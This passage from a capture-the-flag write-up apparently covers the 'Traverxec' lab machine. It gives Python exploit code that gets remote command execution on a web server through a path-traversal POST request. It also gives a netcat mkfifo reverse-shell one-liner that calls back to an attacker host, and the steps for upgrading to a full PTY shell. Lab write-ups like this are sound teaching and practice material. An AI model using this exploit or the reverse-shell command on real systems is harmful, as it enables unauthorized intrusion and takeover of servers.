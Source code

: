```python
def cve(target, port, cmd):
    # Create new web socket and connect to target IP at port.
    soc = socket.socket()
    soc.connect((target, int(port)))
    # Create malicious POST request
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    # Send POST request and receive the output
    soc.send(payload)
    receive = connect(soc)
    print(receive)
```

Let's do a simple test to check that this exploit works.

```bash
$ python 47837.py 10.10.10.165 80 whoami
www-data
```
This gets us command execution! 

### Reverse Shell

Let's get a reverse shell. I start a listener on port `1234` of my `Kali` box with `$ nc -lvnp 1234`. Then I issue the following command to be run on the remote machine to get a reverse shell.

```bash
$ python 47837.py 10.10.10.165 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.11 1234 >/tmp/f"
```

```bash
$ nc -lvnp 1234
$ whoami
www-data
```

### Upgrade to Full Shell

We now have a bare webshell. We can't use tab completion and we can't `Ctrl-C` commands without closing the shell entirely. Let's fix that.

```bash
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ # Ctrl-Z
# Local shell
$ stty echo -raw; fg
www-data@traverxec:/usr/bin$ export TERM=xterm-256color
www-data@traverxec:/usr/bin$ export SHELL=bash
www-data@traverxec:/usr/bin$ clear
```

### User Privilege Escalation
